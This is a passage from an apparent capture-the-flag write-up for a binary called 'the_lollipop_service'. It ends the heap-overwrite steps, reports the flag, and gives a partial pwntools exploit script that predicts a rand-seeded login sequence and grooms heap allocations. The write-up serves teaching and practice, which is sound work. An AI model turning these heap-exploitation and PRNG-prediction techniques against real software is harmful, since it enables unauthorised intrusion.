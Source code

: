 Note that I'm replacing the whole chunk header and most of the order with As.
No need to bother with fake structs, it won't crash for now and we're almost done.
Just need to allocate an order to overwrite `reseller` (I'm reusing order 1 to avoid touching the top chunk):

```python
remove_order(1)
add_order('X')
```

Finally, let's get the flag:

```python
menu('resel')
p.interactive()
```

And it spits out `IHC{sw33t3r_th4n_c4ndy_0n_4_st1ck}`.
Good game!

### Exploit code

```python
#!/usr/bin/env python2

from pwn import *
import ctypes
import datetime

context(os='linux', arch='i686')

libc = ctypes.CDLL('/lib64/libc.so.6')

p = process('./the_lollipop_service', env={'LD_PRELOAD': './memalloc.so'})

def login():
    p.recvuntil('you??\n')
    p.sendline('0001')
    p.recvuntil('sequence!\n')
    h = datetime.datetime.now().hour
    libc.srand(1 + h)
    for _ in range(100):
        x = libc.rand() % 9999
        p.sendline(str(x).zfill(4))

def menu(choice):
    p.recvuntil('Command> ')
    p.sendline(choice)

def add_order(note):
    menu('add')
    p.recvuntil('want??')
    p.recvuntil('\n>')
    p.sendline('1')
    p.recvuntil('note (MAX 16 char):\n')
    p.sendline(note)

def remove_order(idx):
    menu('remove')
    p.recvuntil('remove?\n>')
    p.sendline(str(idx))

login()

add_order('X') # 1, 0x20

add_order('A'*46) # 2, 0x50
```